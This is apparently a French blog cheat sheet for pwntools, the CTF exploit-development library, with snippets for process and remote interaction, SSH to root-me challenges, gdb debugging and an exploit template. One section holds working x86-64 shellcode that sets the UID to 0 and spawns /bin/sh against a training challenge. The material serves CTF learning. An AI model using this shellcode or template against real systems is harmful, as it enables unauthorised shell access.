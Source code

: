 # Pwntools


https://github.com/Gallopsled/pwntools

Pwntools est un CTF framework et une librairie python conçus pour le développement d’exploits. Pwntools a pour but de rendre le développement d’exploits le plus simple et rapide possible. Il vient en 2 parties : *_pwn_* pour les CTFs et *_pwnlib_* une version plus clean et “professinnelle” du projet.


## Create and Interact with Process
```python
import pwn

p = pwn.process([&#34;/usr/bin/python3&#34;, &#34;-c&#34;, &#34;&#39;print(hello)&#39;&#34;])

p.write(&#34;hello&#34;)       # -&gt; send : &#34;hello&#34;
p.writeline(&#34;hello&#34;)   # -&gt; send : &#34;hello\n&#34;

output = p.read(&lt;length&gt;)
output = p.readline()
output = p.readuntil(&#39;some string&#39;)
output = p.readall()

# p.readuntil(&#39;some string&#39;) ; p.write(b&#39;aaaa&#39;)
p.writeafter(&#39;some string&#39;, b&#39;aaaa&#39;)

# p.readuntil(&#39;some string&#39;) ; p.writeline(b&#39;aaaa&#39;)
p.writelineafter(&#39;some string&#39;, b&#39;aaaa&#39;)

# interacting with the process manually
p.interactive()

# waiting for the process to finish
p.wait()
```

## Remote
Ici les appels à fonctions ont été fait dans un contexte ou le process est lancé en local. Il est tout à fait possible de faire la même chose en remote.
```python
# Socket
io = remote(&#39;127.0.0.1&#39;, 1337)                # Bind
io = listen(8080).wait_for_connection()       # Reverse

# SSH Connect
s = ssh(host=&#39;challenge02.root-me.org&#39;,user=&#39;app-systeme-ch15&#39;,password=&#39;app-systeme-ch15&#39;,port=2222)
p = s.process(&#39;./ch15&#39;)

p.send(&#34;hello&#34;)       # -&gt; send : &#34;hello&#34;
p.sendline(&#34;hello&#34;)   # -&gt; send : &#34;hello\n&#34;

output = p.recv(&lt;length&gt;)
output = p.recvline()
output = p.recvuntil(&#39;some string&#39;)
output = p.recvall()
```

## Context and Environment
```python
# Add environment variables
p = pwn.process([&#34;/usr/bin/python3&#34;, &#34;-c&#34;, &#34;&#39;print(hello)&#39;&#34;], env={&#39;TEST&#39;:&#39;test&#39;})
```

## Play with Stdin/Stdout
```python
# Redirect file output to process stdin
fd = open(&#39;input.txt&#39;, &#39;r&#39;)
p = process([&#39;/usr/bin/cat&#39;, &#39;/flag.txt&#39;], stdin=fd)

# Redirect process output to a file
fd = open(&#34;output.txt&#34;, &#34;w&#34;)
p = process([&#39;/usr/bin/cat&#39;, &#39;/flag.txt&#39;], stdout=fd)
```

## Shellcode
```python
import pwn

p = pwn.process([&#39;/challenge/babyshell_level5&#39;])

pwn.context.update(arch=&#39;amd64&#39;, os=&#39;linux&#39;)
payload = pwn.asm(f&#34;&#34;&#34;
.global _start
_start:
.intel_syntax noprefix
	
# Set Real UID to root(0)
	xor rax, rax
	mov al, 0x71
	xor rdi, rdi
	xor rsi, rsi
	syscall
	
# Call /bin/sh
	xor rbx, rbx
	push rbx                          # on push un null byte sur la stack pour la fin de la string du path de /bin/sh
	mov rbx, 0x68732f6e69622f2f       # on push /bin/sh sur la stack
	push rbx
	xor rax, rax
	mov al, 59
	xor rdi, rdi
	mov rdi, rsp                      # on récupère &#34;/bin/sh\0&#34; depuis la stack
	xor rsi, rsi
	xor rdx, rdx
	syscall
&#34;&#34;&#34;)

p.write(payload)

p.interactive()

p.wait()
```

## Debugging
Tout d&#39;abord, le server qui héberge le binaire que l&#39;on souhaite debug doit avoir _**gdb**_ et _**gdbserver**_ d&#39;installé.

```python
# Debug à partir de la toute première instruction
io = gdb.debug(&#34;/bin/bash&#34;, gdbscript=&#39;continue&#39;)

# Debug un process
io = process(&#39;/bin/sh&#39;)
gdb.attach(io, gdbscript=&#39;continue&#39;)

# Debug en remote
io = remote(&#39;localhost&#39;, 4141)
gdb.attach(io)

# Debug en ssh
context.terminal = &#34;/Applications/iTerm.app/Contents/MacOS/iTerm2&#34; #(Dépend de l&#39;environement graphique, ex: /usr/bin/i3-sensible-terminal)
s = ssh(host=&#39;challenge02.root-me.org&#39;,user=&#39;app-systeme-ch7&#39;,password=&#39;app-systeme-ch7&#39;,port=2222)
io = s.process([&#39;./ch7&#39;, payload])
gdb.attach(io, gdbscript=f&#34;&#34;&#34;
    b *main
    continue
&#34;&#34;&#34;)

io.sendline(&#39;break main&#39;)
io.recvline()
io.interactive()

```

## Template
```python title:pwntools_template.py
#!/usr/bin/python3.9
from pwn import *

if not args.BLIND:
    context.binary = elfexe = ELF(&#39;./src&#39;) #FIXME
#    libc = ELF(&#39;&lt;libc-used-by-target&gt;&#39;) #FIXME

def start(argv=[], *a, **kw):
    &#39;&#39;&#39;Start the exploit against the target.&#39;&#39;&#39;
    elf_path = &#39;/challenge/run&#39;
    if args.REMOTE:
        remote_server = &#39;dojo.pwn.college&#39;   #FIXME
        remote_port = 22         #FIXME

        if args.SSH:
            s = ssh(&#39;hacker&#39;, remote_server, remote_port, keyfile=&#39;/home/ego/.ssh/id_ed25519&#39;)
            if args.GDB:
                if not args.BLIND:
                    return gdb.debug([elf_path] &#43; argv, gdbscript, elfexe.path, ssh=s, *a, *kw)
                else:
                    return gdb.debug([elf_path] &#43; argv, gdbscript, ssh=s, *a, *kw)
            else:
                target = s.process([elf_path] &#43; argv, *a, **kw)
        else:
            target = remote(remote_server, remote_port)
    else:
        if args.GDB:
            if not args.BLIND:
                return gdb.debug([elf_path] &#43; argv, gdbscript, elfexe.path, *a, *kw)
            else:
                return gdb.debug([elf_path] &#43; argv, gdbscript, *a, *kw)
        else:
            target = process([elf_path] &#43; argv, *a, **kw)
    return target

gdbscript = &#39;&#39;&#39;
# init-gef
# target record-full # Not supported with AVX instructions yet

# b *main
# command
#     printf &#34;argv ptr: %p\\n&#34;,$rsi
# end

# continue
&#39;&#39;&#39;.format(**locals())
if args.GDB:
    log.info(&#39;Using gdb script:\n&#39;&#43;gdbscript)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

arguments = []
io = start(arguments)

io.interactive()
io.close()
```
## Play with files
https://docs.pwntools.com/en/dev/filesystem.html
## Troubleshootings
Dans le cas où on a des erreurs et que l&#39;on a besoin de comprendre ce qui se passe en détail dans pwntools, on peut utiliser l&#39;option `debug`.

```
# Debug global
context.log_level=&#39;debug&#39;

# Debug local
io = gdb.debug(&#39;/bin/sh&#39;, log_level=&#39;debug&#39;)
```

https://github.com/Gallopsled/pwntools-tutorial/blob/master/debugging.md#troubleshooting


---

> Author:   
> URL: https://0xeg0.github.io/MyLittlePwney/pwn/cheat-sheets/-pwntools/  

